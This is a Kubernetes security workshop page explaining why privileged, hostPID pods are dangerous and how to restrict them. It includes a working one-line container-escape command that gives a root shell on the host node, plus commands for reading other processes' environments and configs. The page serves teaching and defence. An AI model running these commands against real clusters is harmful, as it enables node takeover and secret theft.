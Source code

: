 +++
categories = []
date = "2020-02-22"
description = ""
slug = ""
tags = []
title = "Avoid privileged mode"
draft = false
toc = true
weight = 65
+++

### Introduction
In this exercise, we cover:

 - What `--privileged` mode does
 - The crazy things it allows
 - How you might be able to replace it

### Setup
We'll exec directly into a container in this example.

This example is based on Ian Coldwater and Duffie Cooley's example from [Black Hat USA 2019](https://github.com/mauilion/blackhat-2019).

As a preliminary step, we'll deploy nginx and then spy on it later.
_(Note: adjust the replica count to match the number of nodes in your cluster.)_

```
kubectl create deployment nginx --image=nginx:stable
kubectl scale deployment nginx --replicas 2
kubectl get pods -w
```

To start, we'll use [Duffie Cooley's "one tweet to root"](https://twitter.com/mauilion/status/1129468485480751104)—it takes less than 280 characters!

```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

Here's that spec again, pretty-printed:
```json
{
  "spec": {
    "hostPID": true,
    "containers": [
      {
        "name": "1",
        "image": "alpine",
        "command": [
          "nsenter",
          "--mount=/proc/1/ns/mnt",
          "--",
          "/bin/bash"
        ],
        "stdin": true,
        "tty": true,
        "securityContext": {
          "privileged": true
        }
      }
    ]
  }
}
```

You'll notice:

 - `"hostPID": true` — The container is entering the host's process (PID) namespace
 - `"privileged": true` — The container is running in `--privileged` mode
 - `"stdin": true, "tty": true` — We'll attach a terminal to the running container when it starts
 - `"command"` — It's going to start out using `nsenter` to go into the **host**'s PID 1 (first process)

### "Attack"
Once we are in this shell, we can do some fun stuff to explore the host and learn about other processes and containers.

```
ls /proc/*/environ

pgrep -a nginx
(nsenter -n -t $(pgrep nginx | head -n1) ss -ln)
(nsenter -m -t $(pgrep nginx | head -n1) cat /etc/nginx/nginx.conf)

(nsenter -m -t 1 cat /etc/resolv.conf)
```

Can you think of anything else you'd want to do to the host while we're here?

### Countermeasure
Avoid `--privileged` mode and `hostPID` unless super necessary.

Consider applying admission control (using a dynamic admission controller or a `PodSecurityPolicy`) to block privileged containers by default.

### Attack effects after patching

Let's start just changing `hostPID: false`.

```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{ "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

We can also try with `privileged: false`:
```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true}]}}'
```

Note that neither succeeds because we either lack `/bin/bash` (a side-effect of staying in our Alpine container's `pid 1` instead of the host's) or we can't actually mount the process's mount (a side-effect of not being `--privileged`).

### How to use it yourself
Use the capabilities setting in the `securityContext` rather than privileged mode, if you can.
There are limited circumstances where you can and can't do this, which are hard to enumerate.

To know what caps you need, consider [`capable`](http://www.brendangregg.com/blog/2016-10-01/linux-bcc-security-capabilities.html).

Remember that all of these changes should go through CI and testing, like any code change.
You need to be sure all of your important flows are exercised if you want to have confidence in this change.

### Advertisement
Go see Maya and Frenchie's talk tomorrow at 11am about privileged containers!

### Next up
We'll cover Linux capabilities in the next exercise:

[**Minimize Linux capabilities**](../70-caps)
